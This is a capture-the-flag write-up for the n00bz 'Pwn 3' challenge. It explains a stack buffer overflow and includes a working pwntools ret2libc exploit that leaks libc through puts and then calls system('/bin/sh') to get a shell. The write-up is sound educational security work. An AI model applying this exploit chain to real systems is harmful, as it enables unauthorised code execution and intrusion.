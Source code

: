 # **Pwn 3**
Textbook buffer overflow *without* win function

*NOTE : I solved this in pretty much the EXACT same way as pwn2*

# Executable
checksec :
```
[*] '/home/skuuk/n00bz/pwn3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
decompilation :
```C
void main(EVP_PKEY_CTX *param_1)

{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_28,0x50,stdin);
  puts("n00bz{f4k3_fl4g}");
  return;
}
```
no canary, the only local on the stack is the buffer `local_28` itself so the returned address is at offset `32 + 8 = 40` 
(counting 8 bytes for the saved `rbp`)
# Exploit

The exploit is in 2 phases :
- first we leak the address of libc by returning to puts (via the plt) with the got entry of puts as argument (which contains the adress of puts in libc since puts has been called previously) then return to `main`
- second we return to system with the address of `/bin/sh\x00` as argument to spawn a shell

*Returning to main allows us use the buffer overflow a second time*
```python
io = start()

# gadgets in the executable
pop_rdi = 0x401232
ret = 0x40101a

# leak libc base + return to main
rop1 = p64(pop_rdi)
rop1 += p64(exe.got['puts'])
rop1 += p64(exe.plt['puts'])
rop1 += p64(exe.symbols['main'])

# return to system
io.sendline(b'a'*40 + rop1)
io.recvuntil('}\n')
libc = exe.libc
libc.address = int.from_bytes(io.recvline()[:-1],'little') - libc.symbols['puts']
print(f"libc : 0x{libc.address:x}")

rop2 = p64(pop_rdi)
rop2 += p64(next(libc.search(b'/bin/sh\x00')))
rop2 += p64(ret)
rop2 += p64(libc.symbols['system'])
io.sendline(b'a'*40 + rop2)

io.sendline("cat flag.txt")

io.interactive()
```

# Flag
```
n00bz{1f_y0u_h4ve_n0th1ng_y0u_h4ve_l1bc}
```